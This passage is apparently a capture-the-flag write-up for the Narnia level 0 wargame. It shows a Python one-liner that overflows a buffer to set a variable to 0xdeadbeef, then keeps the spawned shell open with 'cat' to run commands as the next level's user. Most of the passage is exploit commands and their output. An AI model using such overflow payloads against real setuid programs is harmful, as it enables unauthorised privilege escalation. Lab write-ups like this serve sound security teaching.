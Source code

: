 We are 4 characters short. Let's see what happens if we append 4 additional characters.
Reason behind it is the compilation flags. Adding `-m32` does it and the code can be exploited
with the usual input:
```
(python -c 'print("B"*20  +"\xef\xbe\xad\xde")') | ./narnia0gdb32
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
```

Debugging though the code we can see that the shell is getting invoked however it goes to `return 0;`
automatically afterwards. Without getting into too difficult mechanisms, let's be a bit creative:
```bash
(python -c 'print("B"*20  +"\xef\xbe\xad\xde")'; whoami) | ./narnia0gdb32
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
/bin/sh: 1: narnia0: not found

```bash
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ (python -c 'print("B"*20  +"\xef\xbe\xad\xde")'; ls) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
/bin/sh: 1: narnia0: not found
/bin/sh: 2: narnia0.c: not found
/bin/sh: 3: narnia1: not found
/bin/sh: 4: narnia1.c: not found
/bin/sh: 5: narnia2: not found
/bin/sh: 6: narnia2.c: not found
/bin/sh: 7: narnia3: not found
/bin/sh: 8: narnia3.c: not found
/bin/sh: 9: narnia4: not found
/bin/sh: 10: narnia4.c: not found
/bin/sh: 11: narnia5: not found
/bin/sh: 12: narnia5.c: not found
/bin/sh: 13: narnia6: not found
/bin/sh: 14: narnia6.c: not found
/bin/sh: 15: narnia7: not found
/bin/sh: 16: narnia7.c: not found
/bin/sh: 17: narnia8: not found
/bin/sh: 18: narnia8.c: not found

```
Getting interactive through `cat`:

```bash
narnia0@narnia:~$ (python -c 'print("B"*20  +"\xef\xbe\xad\xde")'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
whoami
narnia1

```
